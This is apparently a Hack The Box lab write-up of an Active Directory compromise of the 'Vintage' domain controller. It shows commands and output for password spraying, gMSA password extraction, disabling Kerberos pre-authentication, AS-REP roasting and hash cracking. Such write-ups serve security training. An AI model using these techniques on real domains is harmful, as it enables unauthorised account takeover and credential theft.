


|Machine|Release Date |Operating System|Difficulty|
--------|-------------|----------------|----------|
|Vintage| 30 Nov 2024 |Windows         |Hard      |

## About


## Reconnaissance

### Port scanning

I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
 
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.91.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 14:44 IST
Nmap scan report for 10.129.91.223
Host is up (0.24s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-04 09:14:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
50220/tcp open  msrpc         Microsoft Windows RPC
58007/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-04T09:15:46
|_  start_date: N/A
|_clock-skew: -3s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.46 seconds
```
After reviewing the Nmap scan results, we can confidently deduce that the target is a Domain Controller. This is evident from the presence of port `88/tcp`, which is commonly associated with [Kerberos authentication](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview).

### SMB Enumeration

Using the credentials already provided, we are going to check if there are any interesting SMB shares using `netexec`.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec smb 10.129.91.223 -u P.Rosa -p 'Rosaisbest123' --shares     
SMB         10.129.91.223  445    10.129.91.223   [*]  x64 (name:10.129.91.223) (domain:10.129.91.223) (signing:True) (SMBv1:False)
SMB         10.129.91.223  445    10.129.91.223   [-] 10.129.91.223\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```
Interstingly, the credentials did not work and we got `STATUS_NOT_SUPPORTED` message. let's try `LDAP` this time just to verify that the credentials were correct.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap  10.129.91.223 -u P.Rosa -p 'Rosaisbest123'     
LDAP        10.129.91.223  389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.129.91.223  389    dc01.vintage.htb [-] vintage.htb\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```

And `LDAP` did not work either. But, this does not necessarily mean that the credentials were incorrect, but most likely the target server is hardened and does not support some type of authentication methods.

So, we are going to retry, but this time using `Kerberos`. We just need to add the `-k` flag in the command and also ensure that our local hosts (`/etc/hosts`) file is updated appropriately to resolve `vintage.htb` and `dc01.vintage.htb` to the target's IP Address.

**Hosts** file

```
[libdefaults]
    default_realm = VINTAGE.HTB
    dns_lookup_realm = true
    dns_lookup_kdc = true
[realms]
    VINTAGE.HTB = {
        kdc = DC01.VINTAGE.HTB:88
        admin_server = DC01.VINTAGE.HTB
	master_kdc = DC01.VINTAGE.HTB
	default_domain = VINTAGE.HTB
    }
[domain_realm]
    .VINTAGE.HTB = VINTAGE.HTB
    VINTAGE.HTB = VINTAGE.HTB
```

Trying `smb` and `ldap` both are working now.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec smb dc01.vintage.htb -k -u  'P.Rosa' -p 'Rosaisbest123'
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123 
                                                                                                                                       
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -k -u  'P.Rosa' -p 'Rosaisbest123'
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123 
```

Using `p.rosa`, we are going to extract all the usernames from the target. This time too, `netexec` can help us with that.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -k -u  'P.Rosa' -p 'Rosaisbest123' --users |awk {'print $5'}                                   
[*]
[+]
[*]
-Username-
Administrator
Guest
krbtgt
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

### Bruteforcing

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -k -u  usernames.txt -p 'Rosaisbest123' --continue-on-success               
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\M.Rossi:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\R.Verdi:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\L.Bianchi:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\G.Viola:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\C.Neri:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\svc_sql:Rosaisbest123 KDC_ERR_CLIENT_REVOKED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\svc_ldap:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\svc_ark:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\C.Neri_adm:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\L.Bianchi_adm:Rosaisbest123 KDC_ERR_PREAUTH_FAILED
```

### Bloodhound

```shell
nd AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The resolution lifetime expired after 3.103 seconds: Server Do53:10.129.91.223@53 answered The DNS operation timed out.
INFO: Done in 00M 21S
INFO: Compressing output into 20241205105648_bloodhound.zip
```

#### Bloodhound Analysis

1. `C.NERI` is a member of SERVICEMANAGERS which has `GenericAll` (aka. FUll Control) over the following 3 accounts-
    1. SVC_ARK
    2. SVC_LDAP
    3. SVC_SQL


2. `C.NERI` is also a member of `REMOTE MANAGEMENT USERS` security group. THis means that her account can be used to PowerShell remoting onto the target. This makes this account a high value target.


3. There is a gMSA account called `GMSA01$` which has GenericAll permissions on the `SERVICEMANAGERs` security group.
4. `Domain Computers` group has `ReadGMSAPassword` permissions on the `GMSA01$` account.
5. There is only 1 computer object `FS01` in the `Domain Computers` group.


6. `FS01` is also a member of `PRE-WINDOWS 2000 COMPATIBLE ACCESS` security group, which is interesting.


### Pre-Windows 2000 computers

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ ldapsearch -H 'ldap://dc01.vintage.htb' -x -b 'dc=vintage,dc=htb' -D 'CN=P.ROSA,CN=USERS,DC=VINTAGE,DC=HTB' -w 'Rosaisbest123' '(&(objectClass=computer)(userAccountControl=4096))' dNSHostName userAccountControl
# extended LDIF
#
# LDAPv3
# base <dc=vintage,dc=htb> with scope subtree
# filter: (&(objectClass=computer)(userAccountControl=4096))
# requesting: dNSHostName userAccountControl 
#

# gMSA01, Managed Service Accounts, vintage.htb
dn: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
userAccountControl: 4096
dNSHostName: gmsa01.vintage.htb

# fs01, Computers, vintage.htb
dn: CN=fs01,CN=Computers,DC=vintage,DC=htb
userAccountControl: 4096
dNSHostName: FS01.vintage.htb

# search reference
ref: ldap://ForestDnsZones.vintage.htb/DC=ForestDnsZones,DC=vintage,DC=htb

# search reference
ref: ldap://DomainDnsZones.vintage.htb/DC=DomainDnsZones,DC=vintage,DC=htb

# search reference
ref: ldap://vintage.htb/CN=Configuration,DC=vintage,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 2
# numReferences: 3
```

So, for `FS01$`, we are going to try the password as `fs01` as that's how the password is set by default.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -k -u 'fS01$' -p 'fs01'                      
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\fS01$:fs01 
```


```shell

┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb  -p 636  -k -u 'fS01$' -p 'fs01' --gmsa 
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] LDAPs connection to ldaps://dc01.vintage.htb failed - (104, 'ECONNRESET')
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] Even if the port is open, LDAPS may not be configured

```

Let's see if `gMSADumper.py` can help. We can clone it from its github repository.


```shell
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ impacket-getTGT vintage.htb/'fs01$':'fs01' -dc-ip dc01.vintage.htb                                                                     
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in fs01$.ccache
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ export KRB5CCNAME=fs01\$.ccache
```

validate if the kerberos cache is working using `netexec`

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb --use-kcache
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\FS01$ from ccache 
```
Now, using `bloodyAD`, we are going to retrive the password for `GMSA01$` which is stored in its `msDS-ManagedPassword` attribute.

```shell
──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'fs01$' -k  --dc-ip 10.129.91.223 get object 'GMSA01$' --attr msDS-ManagedPassword 

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```
Now, let's get the TGT for `GMSA01$`.

```shell
──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ impacket-getTGT vintage.htb/'gMSA01$' -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gMSA01$.ccache
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ export KRB5CCNAME=gMSA01\$.ccache 
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ echo $KRB5CCNAME                 
gMSA01$.ccache

```

Then using `bloodyAD` let's add `GMSA01$` to `SERVICEMANAGERS` security group.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'gmsa01$' -k  --dc-ip 10.129.91.223 add groupMember servicemanagers 'gmsa01$'
[+] gmsa01$ added to servicemanagers
```

Now, let's disable kerberos pre-authentication for the service accounts:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'gmsa01$' -k  --dc-ip 10.129.91.223 add uac SVC_ARK -f DONT_REQ_PREAUTH             
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'gmsa01$' -k  --dc-ip 10.129.91.223 add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
                                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'gmsa01$' -k  --dc-ip 10.129.91.223 add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
```

### AES-REP Roasting

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -u usernames.txt -p '' --asreproast output.txt
LDAP        10.129.91.223   389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.129.91.223   389    dc01.vintage.htb $krb5asrep$23$svc_ldap@VINTAGE.HTB:78df33c5c43fb1bc30cfcf12a1e678ca$14945cb9d5f26692250973741699201894f0f7f0cfff672e40b72e1a3c6c8cc9bc515aee37fc741fde4239e23452896bfca8fac54137d381f10d1afdeee6c120794d0fb7082946cdfcf10ce46e81b4b2aeb1ccbe6b2edd2ba5b90fbb01f4e13ebea4267f40441b755fa5caba90bb697a902a106241abc15f8adadabfb464232ea037d7c1035f4042bb47adff4e465e7e6d93a44e1f3794d3d3b774b5dd71e0cfa4214ba96d4c042c878fd7f5a139e5b8fe56a436c6df4d735199142678d1d2cb9894a2eca1d38338ab69f45e315f6abc4074e3d54dde6d867d43f150a200a8e1acfc53f6455108a6ae26
LDAP        10.129.91.223   389    dc01.vintage.htb $krb5asrep$23$svc_ark@VINTAGE.HTB:69a7cedf22cf6c4eab848aa08d897ba8$541fda70d6b87017727a29419b92e19c76b252a863ecc2dfe6bcbcaa64c6df432f792bcafa982ca3d3509ab4808d516e7e2606c56dfbce739fa35d602cc6e388bfa5c4026afa449217b15fd7e90388c3967b0c29de3333212624fbdd9d9234e95edb759eb2ab124d198f6c0c4f47c799d5d1273e847c9b193a72b7218340922d5e65923323befccf324f12d1ee8eccd3be0d67ad4cc732f1a5a2ca00d4da36f0b1cf47cb94c3db550238453c34119c4a586cd23ac783948cafec06912bf5a986d25ecefc41100963ee1a65511f19dee9b10f7a67a6412c3abaecf5f82b20c0993b34242649f6f5ac45f5
```


I got the hashes only for `svc_ldap` and `svc_ark` but kerberos pre-auth was disabled for 3 accounts. So, hashes are missing for `svc_sql`. Most likely this account is disabled, but since we have `GenericAll` permissions over it, we can enable it.

```shell
odo㉿kali)-[~/hack-the-box/vintage]
└─$ bloodyAD --host dc01.vintage.htb -d vintage.htb -u 'gmsa01$' -k  --dc-ip 10.129.91.223 remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```

Now, we got hashes for all the 3 accounts.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -u usernames.txt -p '' --asreproast output.txt
LDAP        10.129.91.223   389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.129.91.223   389    dc01.vintage.htb $krb5asrep$23$svc_sql@VINTAGE.HTB:8954162d6455c5865c572fa2ed4f2d46$cb5bd0ac2e7723c9fab2a228f2a8ed0ea68c87a7a188f15c14a2924a6ee2309bd8f12c7346c21cce8ad768ee8b15d58ed80cb38d4d9180195bfdad0cf5b043721c535d0f0ac23bcaed8f8cccf4ed62d583da4d6ad5e41d478ae761f811430d306c76166851b1d9c43ec06aaa36bf2cd893cfd1db73444eaa652c86ba03bd6e3dd668e89bd10d5416b652f53fbbacd57f55630350fa76f0b50f11ee39dde3459ec03867279dc050c45442bfd3e30738b3c6ce55133b4905d4d6b2acd1d469b8d221e2260156a088deebc2bc3ae0f2db96b6fc7c7b45a0166a299c3fd24ab1f9e9658ba2d5d67b849fe1ec
LDAP        10.129.91.223   389    dc01.vintage.htb $krb5asrep$23$svc_ldap@VINTAGE.HTB:78df33c5c43fb1bc30cfcf12a1e678ca$14945cb9d5f26692250973741699201894f0f7f0cfff672e40b72e1a3c6c8cc9bc515aee37fc741fde4239e23452896bfca8fac54137d381f10d1afdeee6c120794d0fb7082946cdfcf10ce46e81b4b2aeb1ccbe6b2edd2ba5b90fbb01f4e13ebea4267f40441b755fa5caba90bb697a902a106241abc15f8adadabfb464232ea037d7c1035f4042bb47adff4e465e7e6d93a44e1f3794d3d3b774b5dd71e0cfa4214ba96d4c042c878fd7f5a139e5b8fe56a436c6df4d735199142678d1d2cb9894a2eca1d38338ab69f45e315f6abc4074e3d54dde6d867d43f150a200a8e1acfc53f6455108a6ae26
LDAP        10.129.91.223   389    dc01.vintage.htb $krb5asrep$23$svc_ark@VINTAGE.HTB:69a7cedf22cf6c4eab848aa08d897ba8$541fda70d6b87017727a29419b92e19c76b252a863ecc2dfe6bcbcaa64c6df432f792bcafa982ca3d3509ab4808d516e7e2606c56dfbce739fa35d602cc6e388bfa5c4026afa449217b15fd7e90388c3967b0c29de3333212624fbdd9d9234e95edb759eb2ab124d198f6c0c4f47c799d5d1273e847c9b193a72b7218340922d5e65923323befccf324f12d1ee8eccd3be0d67ad4cc732f1a5a2ca00d4da36f0b1cf47cb94c3db550238453c34119c4a586cd23ac783948cafec06912bf5a986d25ecefc41100963ee1a65511f19dee9b10f7a67a6412c3abaecf5f82b20c0993b34242649f6f5ac45f5
```


### Password Cracking

Using `john`, we were able to crack the password for `svc_sql`

```shell
                                                                                                                                                                            
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ john output.txt -wordlist=/usr/share/wordlists/rockyou.txt                  

Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Zer0the0ne       ($krb5asrep$23$svc_sql@VINTAGE.HTB)     
1g 0:00:01:33 DONE (2024-12-05 14:42) 0.01067g/s 153081p/s 623408c/s 623408C/s  0841079575..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Password Spraying

Since this is a service account, it may have been used in other accounts too. THis is a common mistakes that admins make.

Spraying the password over all the accounts revealed that `C.Neri` is using the same password.

```shell                  
┌──(frodo㉿kali)-[~/hack-the-box/vintage]
└─$ netexec ldap dc01.vintage.htb -k -u usernames.txt -p 'Zer0the0ne' --continue-on-success
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\C.Neri:Zer0the0ne 
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\svc_sql:Zer0the0ne KDC_ERR_CLIENT_REVOKED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\svc_ldap account vulnerable to asreproast attack 
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\svc_ark account vulnerable to asreproast attack 
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
```


## References
1. [Diving into Pre-Created Computer Accounts
](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)